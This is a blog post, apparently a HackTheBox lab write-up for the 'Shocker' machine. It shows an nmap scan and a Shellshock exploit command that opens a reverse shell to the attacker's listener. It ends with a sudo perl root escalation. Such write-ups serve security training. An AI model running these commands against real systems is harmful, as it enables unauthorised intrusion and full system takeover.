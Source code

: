 ```yaml
---
layout: post
title:  "HackTheBox :: Shocker"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

# Description
Shellshock was another basic machine that kind of gave away the vectors for each step with ease.
# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it
```

# Initial shell
As the box name implies, this box probably involves shellshock. A directory bruteforce reveals very little, only a 'cgi-bin' directory. Searchsploit search for shellshock comes up with:
```Apache mod_cgi = 'shellshock' Remote Command Injection | exploits/linux/remote/34900.py'```
Reading the documentation / exploit, we can figure out how to supply it with the arguments we need to yield a shell.
```
python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.5 lport=1337 pages=/cgi-bin/user.sh
```
Running the above gains us a low privileged shell and we can collect the user.txt flag.
# Privilege escalation
A simple 'sudo -l' check reveals our privesc vector. 
```(root) NOPASSWD: /usr/bin/perl```
this tells us we can run perl as root without supplying a password, easy. 
```
10.10.10.56> sudo perl -e 'exec "/bin/bash";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And there we go full privileges with a simple perl shell call.
